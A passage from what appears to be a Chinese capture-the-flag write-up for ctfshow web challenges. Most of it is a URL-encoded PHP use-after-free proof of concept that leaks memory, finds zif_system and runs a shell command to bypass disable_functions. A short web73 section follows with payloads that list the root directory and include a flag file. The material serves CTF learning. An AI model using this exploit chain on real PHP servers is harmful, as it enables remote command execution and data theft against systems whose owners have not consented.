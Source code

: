 ```php
0%20%20%20%20%20%20%20if(%24deref%20!%3D%200x786568326e6962)%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20continue%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%20else%20continue%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20return%20%24data_addr%20%2B%20%24i%20*%208%3B%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_binary_base(%24binary_leak)%20%7B%0A%20%20%20%20%20%20%20%20%24base%20%3D%200%3B%0A%20%20%20%20%20%20%20%20%24start%20%3D%20%24binary_leak%20%26%200xfffffffffffff000%3B%0A%20%20%20%20%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x1000%3B%20%24i%2B%2B)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%3D%20%24start%20-%200x1000%20*%20%24i%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24leak%20%3D%20leak(%24addr%2C%200%2C%207)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24leak%20%3D%3D%200x10102464c457f)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20%24addr%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20get_system(%24basic_funcs)%20%7B%0A%20%20%20%20%20%20%20%20%24addr%20%3D%20%24basic_funcs%3B%0A%20%20%20%20%20%20%20%20do%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_entry%20%3D%20leak(%24addr)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%24f_name%20%3D%20leak(%24f_entry%2C%200%2C%206)%3B%0A%0A%20%20%20%20%20%20%20%20%20%20%20%20if(%24f_name%20%3D%3D%200x6d6574737973)%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20return%20leak(%24addr%20%2B%208)%3B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%24addr%20%2B%3D%200x20%3B%0A%20%20%20%20%20%20%20%20%7D%20while(%24f_entry%20!%3D%200)%3B%0A%20%20%20%20%20%20%20%20return%20false%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20function%20trigger_uaf(%24arg)%20%7B%0A%0A%20%20%20%20%20%20%20%20%24arg%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%20%20%20%20%20%20%20%20%24vuln%20%3D%20new%20Vuln()%3B%0A%20%20%20%20%20%20%20%20%24vuln-%3Ea%20%3D%20%24arg%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(stristr(PHP_OS%2C%20'WIN'))%20%7B%0A%20%20%20%20%20%20%20%20die('This%20PoC%20is%20for%20*nix%20systems%20only.')%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24n_alloc%20%3D%2010%3B%20%0A%20%20%20%20%24contiguous%20%3D%20%5B%5D%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%20%24n_alloc%3B%20%24i%2B%2B)%0A%20%20%20%20%20%20%20%20%24contiguous%5B%5D%20%3D%20str_shuffle('AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA')%3B%0A%0A%20%20%20%20trigger_uaf('x')%3B%0A%20%20%20%20%24abc%20%3D%20%24backtrace%5B1%5D%5B'args'%5D%5B0%5D%3B%0A%0A%20%20%20%20%24helper%20%3D%20new%20Helper%3B%0A%20%20%20%20%24helper-%3Eb%20%3D%20function%20(%24x)%20%7B%20%7D%3B%0A%0A%20%20%20%20if(strlen(%24abc)%20%3D%3D%2079%20%7C%7C%20strlen(%24abc)%20%3D%3D%200)%20%7B%0A%20%20%20%20%20%20%20%20die(%22UAF%20failed%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20%24closure_handlers%20%3D%20str2ptr(%24abc%2C%200)%3B%0A%20%20%20%20%24php_heap%20%3D%20str2ptr(%24abc%2C%200x58)%3B%0A%20%20%20%20%24abc_addr%20%3D%20%24php_heap%20-%200xc8%3B%0A%0A%20%20%20%20write(%24abc%2C%200x60%2C%202)%3B%0A%20%20%20%20write(%24abc%2C%200x70%2C%206)%3B%0A%0A%20%20%20%20write(%24abc%2C%200x10%2C%20%24abc_addr%20%2B%200x60)%3B%0A%20%20%20%20write(%24abc%2C%200x18%2C%200xa)%3B%0A%0A%20%20%20%20%24closure_obj%20%3D%20str2ptr(%24abc%2C%200x20)%3B%0A%0A%20%20%20%20%24binary_leak%20%3D%20leak(%24closure_handlers%2C%208)%3B%0A%20%20%20%20if(!(%24base%20%3D%20get_binary_base(%24binary_leak)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20determine%20binary%20base%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24elf%20%3D%20parse_elf(%24base)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20parse%20ELF%20header%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24basic_funcs%20%3D%20get_basic_funcs(%24base%2C%20%24elf)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20basic_functions%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20if(!(%24zif_system%20%3D%20get_system(%24basic_funcs)))%20%7B%0A%20%20%20%20%20%20%20%20die(%22Couldn't%20get%20zif_system%20address%22)%3B%0A%20%20%20%20%7D%0A%0A%0A%20%20%20%20%24fake_obj_offset%20%3D%200xd0%3B%0A%20%20%20%20for(%24i%20%3D%200%3B%20%24i%20%3C%200x110%3B%20%24i%20%2B%3D%208)%20%7B%0A%20%20%20%20%20%20%20%20write(%24abc%2C%20%24fake_obj_offset%20%2B%20%24i%2C%20leak(%24closure_obj%2C%20%24i))%3B%0A%20%20%20%20%7D%0A%0A%20%20%20%20write(%24abc%2C%200x20%2C%20%24abc_addr%20%2B%20%24fake_obj_offset)%3B%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x38%2C%201%2C%204)%3B%20%0A%20%20%20%20write(%24abc%2C%200xd0%20%2B%200x68%2C%20%24zif_system)%3B%20%0A%0A%20%20%20%20(%24helper-%3Eb)(%24cmd)%3B%0A%20%20%20%20exit()%3B%0A%7D%0A%0Actfshow(%22cat%20%2Fflag0.txt%22)%3Bob_end_flush()%3B%0A%3F%3E
```
## web73（突破禁用函数）
这个题不能用上个题的uaf了，老姿势仍然可用，第一步查看根目录文件
c=var_export(scandir('/'));exit();
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637905712177-72521d9e-8cba-4513-abed-f168f3dcc0fb.png)
第二步包含
![image.png](https://cdn.nlark.com/yuque/0/2021/png/23087450/1637905779853-de10e256-7c85-4d76-918a-25906457571b.png#)
最终payload：c=include('/flagc.txt');exit();
